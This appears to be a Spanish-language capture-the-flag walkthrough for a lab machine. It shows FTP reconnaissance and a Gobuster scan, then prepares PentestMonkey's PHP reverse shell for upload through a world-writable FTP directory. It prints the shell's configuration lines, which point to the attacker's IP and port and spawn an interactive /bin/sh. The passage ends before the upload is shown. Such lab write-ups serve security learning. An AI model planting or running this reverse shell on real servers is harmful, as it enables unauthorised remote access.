 El archivo .test.log no contiene nada importante. El mensaje notice.txt contiene un mensaje sobre personas que publican memes en el sitio compartido. Mencionan el nombre Maya, que puede ser un posible nombre de usuario más adelante.

Pasé la imagen por Aperisolve para buscar algo en ella, pero no encontré nada inmediatamente. Cambiemos al directorio ftp y veamos si hay algo dentro.

No hay nada dentro. Hemos comprobado todo aquí y no podemos hacer mucho con SSH ahora, así que comencemos a comprobar el puerto HTTP. Comenzaremos con la página de inicio del sitio web.

No hay nada en la página de inicio y el código fuente contiene un solo comentario que pregunta cuándo actualizarán el sitio web. Usemos Gobuster para buscar directorios ocultos. Usaremos el siguiente comando para realizar el escaneo con la lista de palabras common.txt:

```
gobuster dir -u http://10.10.129.12 -w /usr/share/wordlists/dirb/common.txt

```

```
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/files                (Status: 301) [Size: 312] [--> http://10.10.129.12/files/]
/index.html           (Status: 200) [Size: 808]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```

El directorio /files es el servicio FTP. Se puede acceder a todo lo que se encuentra en el servicio FTP desde el navegador. Podemos usarlo para obtener acceso a la máquina cargando un shell en el servicio FTP y ejecutándolo en nuestro navegador. Anteriormente, descubrimos que el directorio ftp tenía permisos completos para todos, por lo que cargaremos nuestro shell allí.

Usaremos PHP Reverse Shell de PentestMonkey y reemplazaremos la IP y el puerto con los nuestros.

Ya kali viene con uno:
```

──(kali㉿kali)-[~/Documents/Seguridad de redes/Startup]
└─$ locate php-reverse
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php

Nomas copiamos

──(kali㉿kali)-[~/Documents/Seguridad de redes/Startup]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php shell.php

Ahora lo editamos

set_time_limit (0);
$VERSION = "1.0";  
$ip = '10.9.0.72';  // CHANGE THIS es la ip de nuestra maquina
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```